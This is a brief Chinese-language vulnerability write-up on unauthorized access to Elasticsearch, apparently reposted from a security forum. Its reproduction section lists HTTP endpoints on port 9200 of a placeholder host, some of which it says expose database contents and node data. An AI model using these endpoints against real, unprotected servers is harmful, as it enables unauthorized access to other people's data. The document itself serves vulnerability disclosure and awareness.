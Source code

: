 # Elasticsearch未授权访问

> 原文：[https://www.zhihuifly.com/t/topic/2900](https://www.zhihuifly.com/t/topic/2900)

# Elasticsearch未授权访问

## 一、漏洞简介

> ElasticSearch 是一款Java编写的企业级搜索服务，启动此服务默认会开放HTTP-9200端口，可被非法操作数据。

## 二、影响范围

## 三、复现过程

安装了river之后可以同步多种数据库数据（包括关系型的mysql、mongodb等）。

http://0-sec.org:9200/_cat/indices 里面的indices包含了_river一般就是安装了river了。
http://0-sec.org:9200/_plugin/head/ web管理界面
http://0-sec.org:9200/_cat/indices
http://0-sec.org:9200/_river/_search 查看数据库敏感信息
http://0-sec.org:9200/_nodes 查看节点数据